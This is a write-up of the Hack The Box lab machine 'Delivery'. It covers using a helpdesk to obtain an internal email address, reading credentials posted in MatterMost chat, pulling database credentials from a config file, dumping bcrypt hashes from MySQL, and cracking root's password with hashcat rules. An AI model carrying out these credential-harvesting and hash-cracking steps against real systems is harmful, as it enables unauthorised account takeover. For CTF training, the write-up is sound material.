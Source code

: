 # Delivery

Delivery is a easy Linux HTB machine made by [ippsec](https://app.hackthebox.eu/users/3769)

## Recon

### nmap

nmap found two open TCP ports `22 (SSH)` and `80 (HTTP)`

```nmap
# Nmap 7.91 scan initiated Wed Jan 20 05:39:20 2021 as: nmap -sC -sV -A -o nmap.txt 10.10.10.222
Nmap scan report for 10.10.10.222
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 20 05:39:28 2021 -- 1 IP address (1 host up) scanned in 8.60 seconds
```

### Port 80

Going to `http://10.10.10.222` we are greeted with a landing page. Clicking on `contact us` brings up a popup. This provides us with a lot of useful information about the method we are going to go through to attack this box. It says:

>For unregistered users, please use our HelpDesk to get in touch with our team. Once you have an @delivery.htb email address, you'll be able to have access to our MatterMost server.

This also provides us with a few links; `helpdesk.delivery.htb` `delivery.htb` as well as a new port which nmap did not scan `delivery.htb:8065` containing the MatterMost server. We can add these to our hosts file in `/etc/hosts`.

## Shell as maildeliverer

### Obtaining a @delivery.htb email

As told by the popup, our first step to obtaining an email is by using the HelpDesk, we visit `http://helpdesk.delivery.htb/` and see an instance of `osticket` and the ability to open and check the status of a ticket. The contents of the ticket do not matter as we are not attempting to exploit this. Once created we are given a ticket id as well as an email address to add more information `id@delivery.htb`.
![](images/5ad691957bc7797d07d5993046c29280.png)

We can now go back and click on check status, enter the ticket id and the email we specified when creating it (not the delivery.htb one) and we can view the information that we entered previously:
![](images/61ba3a9b8ceea575e1288c95278d6e8c.png)

### Signing up to MatterMost

Now that we have a `@delivery.htb` email we can visit the MatterMost instance at `http://delivery.htb:8065`. From here we can sign up and provide the email of the ticket as well as a username and password.
![](images/4d79c50313c9f8900e6185255e45ffd6.png)
Now we need to verify our account. Remembering that we can add more information by emailing we can go back to our ticket and we see a new message containing the activation URL for our account.
![](images/2be9f7cdddc3a0cee3984626c48f389a.png)
Visiting the URL and re-entering our password we can join the `Internal` team. and can see some useful messages from `root`:
![](images/67956c5b892594b64a14ae4a63c1ce94.png)

We can note from this the creds for the account maildeliverer, as well as a hint that a lot of the passwords on the box are variants of “PleaseSubscribe!”, and that Hashcat rules will find the variants.

### SSH

Using the creds provided, we can ssh as the user `maildeliverer` and obtain `user.txt`
![](images/ebe6259f63a2179d58bc1f19d391f281.png)

## Shell as root

### SQL

Browsing through the files we find the configuration file for mattermost at `/opt/mattermost/config/config.json`. In here we see a line containing the mysql username and password as well as a hint of what to do

```text
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

We can use these creds to connect to the DB

```text
maildeliverer@Delivery:~$ mysql --user=mmuser --password=Crack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 204
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

From here we can enumerate the databases:

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> 
```

then tables:

```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
...[snip]...
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)
```

and from the `Users` table obtain the root password hash.

```sql
MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| sylinsic1                        | $2a$10$4ZoP1eJ2aYY2kCfy3MwYo.vh/zpf05SXh.aaigf474KAHiEOMvEnm |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| sylinsic                         | $2a$10$KCetAPPa9TcV9CtJZ1iqUefzsiZ.t27RCbWrWLRkpcdfjcaNfPwW. |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| u1274332                         | $2a$10$bsA0eXM4O3m/Ca4OELIHhuoSbAaoCwKcA67TncIM9k1G5NKytNFYK |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| afwfaawwf                        | $2a$10$aiCd1MhmQGUoBqKUI5y55.HsaeHsLLA8Q6sVrF8dl4BuoP.d5Ij0S |
| abc                              | $2a$10$HpRY.gf9grPm1F.h2a0V2.UH/0ExLbTyFK6zJ88VV9WsPE.EfirMW |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)
```

The others users don't seem too interesting, so we can just focus on the root account.

### Cracking the hash

Remembering the comment from MatterMost, we know that the password is a variation of `PleaseSubscribe!` and that we can use Hashcat rules to discover it. More information on creating custom rules can be found [here](https://hashcat.net/wiki/doku.php?id=rule_based_attack) but essentially rules create variations of a password. However, for now we can use the pre-made ones stored at `/usr/share/hashcat/rules`. There are a few but let's start with `best64.rule`. We can put our hash in a file called `hash` and our original password we want to create variations of (PleaseSubscribe!) in another called `wordlist`. The names are arbitrary. We can figure out that the hash type (needed for hashcat) is bcrypt through some light googling of the hash prefix `$2a$`. This means we need to use mode `3200`

```bash
$ hashcat -m 3200 hash wordlist -r /usr/share/hashcat/rules/best64.rule

hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
... [SNIP] ...
Approaching final keyspace - workload adjusted.  

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
... [SNIP] ...
```

### su

Now that we have the password we can try to ssh as `root` however we get a permission denied error. We can go back to our shell as `maildeliverer` and try `su` instead:

```bash
maildeliverer@Delivery:~$ su -
Password: 
root@Delivery:~# 
```

The password `PleaseSubscribe!21` works for root. Lets try to find out why we couldn't SSH. Opening the ssh config file at `/etc/ssh/sshd_config` we can see that `PermitRootLogin` is set to no.
